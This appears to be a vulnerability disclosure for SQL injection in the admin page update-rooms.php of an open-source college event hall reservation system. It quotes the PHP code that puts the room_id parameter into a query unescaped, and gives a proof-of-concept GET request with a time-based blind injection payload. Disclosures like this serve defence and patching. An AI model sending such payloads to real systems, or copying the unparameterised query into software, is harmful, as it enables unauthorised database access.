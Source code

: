 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - SQL Injection update-rooms.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /admin/update-rooms.php

## Code
```php
<?php 
                if(isset($_GET['room_id'])){
                    $room_id1=$_GET['room_id'];
                    $sql1="SELECT * FROM tbl_rooms WHERE room_id='$room_id1'";
                    $res1=mysqli_query($conn,$sql1);
                    if($res1==True){
                        while($row=mysqli_fetch_assoc($res1)){
                            $room_name=$row['room_name'];
                            $room_number=$row['room_number'];
                            $capacity=$row['capacity'];
                            $location=$row['location'];
                            $description=$row['description'];
                            $img_name=$row['img_name'];
                        }
                    }
                }
                ?>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/update-rooms.php?id=1&room_id='+or+1%3dsleep(5)+%23 
Host: [REDACTED]
```

## Screenshot


